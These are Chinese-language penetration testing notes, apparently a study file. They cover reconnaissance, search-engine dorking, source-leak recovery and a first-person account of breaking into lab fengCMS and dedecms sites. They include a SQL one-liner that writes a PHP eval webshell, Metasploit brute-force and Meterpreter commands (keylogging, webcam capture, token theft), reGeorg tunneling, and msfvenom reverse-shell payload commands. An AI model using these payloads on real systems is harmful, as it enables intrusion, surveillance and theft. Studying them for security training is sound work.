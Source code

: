 渗透测试
一、信息收集
1. Whois查询及主域名
绑定IP、域名所有人、域名注册商
二级域名
可通过站长工具、kali下whois命令+域名查找
http://whois.chinaz.com/
https://cloud.baidu.com/product/bcd.html
https://whois.aliyun.com/
Kali 下： whois xxxxx.com
2.端口及服务
中间件（ JBOSS、 Tomcat、 Weblogic等）
常用服务（ FTP、 RDP、 Memcache等）
3.搜索引擎
绑定IP、域名所有人、域名注册商
二级域名
二级域名如何查找？
Ø 搜索备案许可号http://www.beianbeian.com/
Ø 关注移动APP的数据传输https://dev.bangcle.com/
Ø 威胁情报检测平台
Ø SEO大数据工具
https://x.threatbook.cn/ 查询子域名
Google HACK
filetype(重点推荐)
搜索指定类型的文件。
如： .zip .bak .mdb .inc
inurl(重点推荐)
搜索我们指定的字符是否存在于URL中。
如： admin、 login、 system
intitle
搜索网页标题中是否有我们所要找的字符。
百度：
intext
网页中的正文内容中的某个字符做为搜索条件。
site
找到与指定网站有联系的URL。
Cache
用来搜索搜索引擎服务器上某页面的缓存。
+加上可能忽略的字
- 把某个字忽略
~ 同意词
. 单一的通配符
* 通配符，可代表多个字母 "" 精确查询
filetype:txt intext:用户名 and 密码
intitle:"index of"intext:config.php.bak
网站目录
4.Web应用分析
指纹探测、 Web架构、 HTTP头、敏感目
录及文件、错误码分析、漏洞扫描
查看源文件
通过隐藏的链接，代码注释， JS、 CSS文件等
发现敏感信息
Web指纹探测
识别已知Web程序，利用已有漏洞进行尝试或代码审计。
http://whatweb.secbug.org
查询网站是用了模板还是自己写
暴力猜解
利用工具（御剑、 Burpsuite、 DirBrute等）暴力猜解
敏感文件及目录。
返回的错误信息
300、 404、 500页面可能会暴露服务
器或Web应用的敏感信息
HTTP响应头
从HTTP响应头判断Web容器类型
及网站架构（如根据Server: BIGIP 推测站点使用了负载均衡
源代码泄露
. git源码泄漏、 . hg源码泄漏、 .svn源码泄露
、 .DS_Store文件泄漏、未删除的备份、
各种编辑器备份文件 （ .bak 、 .swp等）
实际应用中较少但CTF中较多
漏洞扫描
AWVS
自带几百个扫描脚本，
详情查看手册。
Nmap
非常好用的Web漏洞扫描器
，使用简单，功能强大
Scanner Box。安全从业人员
自己开发的小脚本。
https://github.com/We5ter
/Scanners-Box
Python脚本
针对特定应用或服务的扫描
器，如wpscan、 Metasploit
里的扫描脚本
## 源代码泄露
drwxr-xr-x 11 www-data www-data 4096 Aug 2 17:48 .
drwxr-xr-x 9 root root 4096 Aug 2 17:40 ..
-rw-r--r-- 1 root root 12288 Aug 2 17:43 .index.php.swp
-rw-r--r-- 1 root root 29 Jul 31 16:16 config.php
-rw-r--r-- 1 root root 257 Aug 2 17:42 index.php
drwxr-xr-x 2 root root 4096 Aug 2 17:51 jump
vim -r .index.php.swp
## MD5的弱语言特性
0e开头的MD5原文：
240610708    QNKCDZO  400035577431
md5(240610708,32) = 0e462097431906509019562988736854
md5(QNKCDZO,32) = 0e830400451993494058024219903391
**no module named requests**
http://www.cnblogs.com/jamespan23/p/5526311.html
EXP(exploit): 利用漏洞攻击的脚本（代码）
payload：攻击成功之后要执行的脚本（代码）
POC:漏洞验证脚本（代码）
---
192.168.2.3: \ 172.17.1.5 \ xxx
0.0.0.0:22
192.168.2.3:7001
127.0.0.1:3306
---
WordPress 渗透
http://192.168.2.191:83/
http://192.168.2.191:84/
---
## fengcms 实战
http://xxxx/?controller=down&file=Y29uZmlnLnBocA
config.php ==> (base64) ==> Y29uZmlnLnBocA==
conifg.php
index.php ==> aW5kZXgucGhw
localhost:3306
---
burpsuite实战指南：
https://www.gitbook.com/book/t0data/burpsuite/details
爆破字典：
https://github.com/rootphantomer/Blasting_dictionary
sqlmap + burp suite:
http://www.freebuf.com/sectool/45239.html
《Metasploit 魔鬼训练营》
包含电子书+存在漏洞的虚拟机镜像
链接: https://pan.baidu.com/s/1nvl05Wt 密码: twt7
Meterpreter
background 将当前会话调到后台
sessions 展示所有会话
sessions -i [id] 将后台的会话调到前台
![](https://ws1.sinaimg.cn/large/006tNc79ly1fi7ikmjcn9j30ll0b7q4s.jpg)
## Burpsuite 专业版
1. 在Windows中安装java环境或者将专业版Burpsuite拖进Kali
2. java -jar burpsuite_pro_v1.7.11/BurpLoader.jar 运行Burpsuite
## 使用metasploit爆破Tomcat口令
use auxiliary/scanner/http/tomcat_mgr_login
set rhosts 192.168.2.191
exploit
各种编辑器备份文件（.bak/.swp）
.swp vim的备份文件，指令vim -r .php.swp来恢复
EXP(exploit)：利用漏洞攻击的脚本（代码）
payload：攻击成功之后要执行的脚本（代码）
POC：漏洞验证脚本(代码)
CMS渗透
#### fengCMS
首先拿到这个站后看到是fengCMS,百度了一下fengCMS的，表哥搭的版本比较低，漏洞有点多，用了一个比较老的任意文件下载漏洞直接把config的文件下载下来了，然后得到了数据库账号和密码，，然后扫了一下端口，发现开着3306，连上数据库之后得到后台账号密码，可以通过修改账号密码或者添加账号进入后台getshell，然后我利用的是通过sql语句写入一句话，这里需要注意的问题是通过SQL语句写入shell的时候需要绝对路径，在用AWVS扫的时候扫到了phpinfo，里面找到绝对路径，但是后来就不敢用了，一扫容易把环境扫出问题来。
```
select "<?php eval($_POST[%27cmd%27]) ?>" into outfile "绝对路径";
```
这里一开始我往根目录里写，但是写不进去，没有权限，然后在表哥的提醒下往upload文件里面的文件里写了，成功getshell。
#### dedecms
1.这个一开始找了几个exp都没成功，然后就吃饭去了，回来自己下了个源码搭了一下环境，然后百度了一下exp，成功爆出账号密码，然后dede密码的md5需要前减三后减一再去破解，登陆后台有个文件管理，权限比较大，直接上传shell，菜刀连接。
2.可能我自己设置的密码比较简单，不过这个方法也是可以去尝试的，后台密码爆破，直接利用bp的intruder模块，加载了个常用密码字典爆破。
Meterpreter
核心命令
background - 将当前会话移至后台
exit/quit - 终止meterpreter会话
helt - 帮助菜单
migrate - 移动到看一个指定的PID的活动进程
run - 执行以后它可以选定的脚本
user - 加载meterpreter的拓展
load - 加载其他辅助组件
系统命令
clearav - 清楚了受害者的计算机上的事件日志
drop_token - 被盗的令牌
execute - 执行命令
getpid - 获取当前的进程
getprivs- 尽可能的获取更多的特权
getuid - 获取作为运行服务器的用户
kill - 终止指定的pid进程
ps - 列出正在运行的进程
#### 系统命令
reboot - 重启启动受害人的计算机
reg - 与受害人的注册表进行交互
rev2self - 在受害者机器上调用RevertToSelf
shell - 在受害者机器上打开一个shell
shutdown - 关闭受害者的机器
steal_token - 试图窃取指定的PID的令牌
sysinfo - 获取计算机操作系统和名称
#### 用户界面命令
keyscan_dump - 键盘记录软件的内容转储
keyscan_stat - 启动键盘记录软件
keyscan_stop - 停止键盘记录软件
screenshot - 抓取受控机的桌面屏幕
set_desktop - 更改目标桌面
webcam_snap - 抓取摄像头图片
webcam_stream - 抓取摄像头影像流
提权
#### windows
## 中间件
#### Tomcat攻防
Tomcat是以系统服务权限运行的，所以一般来说权限都比较高。
#### Weblogic攻防
Weblogic默认端口是7001
Weblogic10g-12c的默认后台是 7001/console
10版本一下的默认http://192.168.80.1:7001/console/login/LoginForm.jsp
#### Java反序列化造成的RCE漏洞
#### JBOSS攻防
网络边界撕裂
reGeorg
连上菜刀之后将tunnel.nosocket.php上传到服务器，然后本地执行
```
python reGeorgSocksProxy.py -u http://10.1.199.178/tunnel.php -p 8899
```
，用来做中间处理，当mypc发来8899端口的请求后该中间会将请求发送到内网，也就是pc访问不到的那个网段，然后需要设置8899的浏览器的拦截，类似burpsuite的拦截，只不过8899端口拦截下来的请求发送到tunnel.php。
Metasploit
用msf来进行边界撕裂，首先在msf里面生成一个php反弹马或者exe马
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.1.199.199 LPORT=23333 -o ~/Desktop/123.php
```
msfvenom -p windows/meterpreter/reverse_tcp -e -i 3 LHOST=172.22.25.51 LPORT=23333 -f exe -o ~/shell.exe
lhost是本机的IP，然后指定一个port来接受反弹回来的shell，然后讲生成的php马上传到服务器，然后访问上传的php马就会反弹回来一个shell。
